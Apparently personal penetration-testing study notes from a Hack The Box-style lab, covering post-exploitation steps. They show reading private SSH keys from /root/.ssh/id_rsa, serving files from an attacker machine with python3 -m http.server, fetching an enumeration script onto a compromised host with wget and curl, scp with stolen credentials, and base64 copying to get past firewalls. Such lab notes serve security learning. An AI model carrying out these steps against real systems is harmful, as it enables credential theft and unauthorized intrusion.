 💡  ***Check if you have read access to /root/.ssh folder (or any other user /<user name>/.shh)***


**If you have read permission** to the root folder, (check using command `ls -l <file-name>`) then read their  hidden  ********.ssh******** folder and read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`

# **TRANSFERING FILES  📬**

**Transfer files TO and FROM a remote**

FIRST! Run a Python HTTP server where the file is living from (HOST if you are sending a file to remote / REMOTE if you are grabbing a file from remote…)

`python3 -m http.server 8000`  is the standard command to start a server.

Example of output:

```
**Eli90@htb[/htb]$** cd /tmp
**Eli90@htb[/htb]$** python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

In the example above we have started a server at 0.0.0.0 (whch remember  0.0.0.0 is referred to as an "unspecified" or "wildcard" address.)

and then on the remote we can download a file like so:

## Wget

`wget http://<your-IP-address (ATTACKER>:8000/linenum.sh`

## cUrl

`curl http://<HOST-IP>/linenum.sh -o linenum.sh`

***Note that we used the `-o` flag to specify the output file name.***

## SCP

💡 ***you can only use this if you have obtained ssh user credentials on the remote host***

`scp linenum.sh user@remotehost:/tmp/linenum.sh`

***Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.***

## Base64

**In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine**

In this case, the solution is to (1) ************************base64************************ encode the file in the attacker file —> (2) copy the encoded contain —> (3) paste and decode it in the remote
